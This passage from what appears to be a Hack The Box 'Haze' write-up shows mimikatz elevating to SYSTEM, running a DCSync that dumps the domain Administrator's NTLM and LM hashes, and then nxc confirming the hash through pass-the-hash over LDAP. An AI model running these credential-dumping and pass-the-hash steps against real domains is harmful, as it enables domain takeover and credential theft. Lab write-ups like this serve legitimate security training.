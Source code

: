 ```
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # token::elevate
Token Id  : 0
User name :
SID name  : HAZE\DC01$

608     {0;000003e7} 1 D 44554          HAZE\DC01$      S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;00e74497} 0 D 15929577    NT AUTHORITY\SYSTEM     S-1-5-18        (16g,26p)       Primary
 * Thread Token  : {0;000003e7} 1 D 15969475    NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

mimikatz(commandline) # lsadump::dcsync /user:Administrator
[DC] 'haze.htb' will be the domain
[DC] 'dc01.haze.htb' will be the DC server
[DC] 'Administrator' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Administrator

** SAM ACCOUNT **

SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 3/20/2025 2:34:49 PM
Object Security ID   : S-1-5-21-323145914-28650650-2368316563-500
Object Relative ID   : 500

Credentials:
  Hash NTLM: 06dc954d32cb91ac2831d67e3e12027f
    ntlm- 0: 06dc954d32cb91ac2831d67e3e12027f
    ntlm- 1: 060222100e2edc0a5e173b4027d0d7ae
    lm  - 0: 7a67f9a840029ea3ee20148e0751b022

<SNIP>

mimikatz(commandline) # exit
Bye!
```

`nxc` confirmed that the NTLM hash is it valid!
```
fcoomans@kali:~/htb/haze$ nxc ldap dc01.haze.htb -u Administrator -H 06dc954d32cb91ac2831d67e3e12027f
LDAP        10.10.11.61     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
LDAP        10.10.11.61     389    DC01             [+] haze.htb\Administrator:06dc954d32cb91ac2831d67e3e12027f (Pwn3d!)
```
